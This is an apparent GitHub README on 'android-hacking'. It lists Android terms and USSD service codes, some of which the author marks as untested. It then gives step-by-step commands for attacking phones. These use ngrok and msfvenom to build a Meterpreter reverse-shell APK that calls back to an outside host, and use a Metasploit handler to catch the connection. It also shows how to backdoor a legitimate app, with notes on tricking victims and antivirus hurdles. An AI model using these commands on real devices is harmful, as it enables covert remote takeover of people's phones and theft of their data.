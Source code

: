 # android-hacking



# ANDROID TECHNOLOGY

## TERMINOLOGY

- USSD
```bash
# Unstructured Supplementary Service Data)
- Used by GSM,smartphones... Used to communicate with mobile operator network
- Hep to access some phone features
```

- MMI code
```bash
# Man-Machine Interface code,
- A string of numbers or letters that instructs your device to carry out certain tasks
```

- GSM 
```bash
# Global System for Mobile Communications)
```

- IMEI
```bash
# International Mobile Equipment Identity
```

# USSD codes

- [USSD codes](https://www.maketecheasier.com/android-ussd-secret-security-codes/)
- `*#06#` Used to Get IMEI number of your device 
- `*#07#` Check SAR level # Specific absorption rate (`1.6W/kg`)
- `*#*#225#*#*` Display calenda storage data
- `*#*#4636#*#*` View Smartphone Battery, WLAN, and Other Inf
- `*31#` Turn Off Caller ID-- Enable/disable outgoing caller ID
- `*43#` Enable call waiting service. `#43#` To disable
-  `*#67#` Check Call Forwarding
-  `*57` Activate call tracing service

- [x] Below codes not yet tested
- `*#*#1472365#*#*` GPS System check (strength and efficiency)
- `*#*#2664#*#*` Touch screen Test
- `#*#232339#*#*` Test Wi-Fi
- `*#*#197328640#*#*` Enable service mode
- `*#*#4986*2650468#*#*` View firmware Information
- ` *#*#34971539#*#*` View Camera Information
-  `*#3282*727336*#` Check Storage and System Details



## Using malicios APK file

1. Getting public ip with ngrok
          
           ./ngrok tcp 1234
           
2. Generating with msfvenom  
         
          msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=12126 R > malicious.apk
3. Using msfconsole to listen to the connection from our payload
    
       use exploit/multi/handler
       set payload android/meterpreter/reverse_tcp
   
   Then
   
      `Now we need to send the apk to the victim and getting them to install and launch`
      
 #### Disadvantages of this method
  1. Requires either access to the victim’s phone or social engineering to get the victim to install and launch the malicious apk.
  2. The generated apk file does not look legitimate. It’s only a few KBs and doesn’t do anything when clicked on. The victim might either uninstall it right away or not install it at all.
  3. Might require a lot of time and effort to make the apk file look realistic i.e. changing the logo, adding some functionality.
  4. Such an apk file is easily classified as dangerous by any anti-virus installed on the victim’s phone.
  5. Numerous warnings from the mobile device and Google Play Store that installing apps from unknown sources is dangerous. This might deter the victim from proceeding.
  6. The connection we get back is not persistent. Once the phone reboots, loses internet connection, or the user clears all the running apps in the background, we lose our connection and the only way to get it back again is if the user clicks on the app icon again.
  
  ## Injecting a Malicious Payload on a Legitimate Android App
  
   * you can download legitimate apk files. Kindly note that not all apk files can easily be exploited in this way. Some of them have protections in place
    Then 
    
        msfvenom -x CameraSample.apk -p android/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=12492 -o CameraSample_backdoored.apk
    
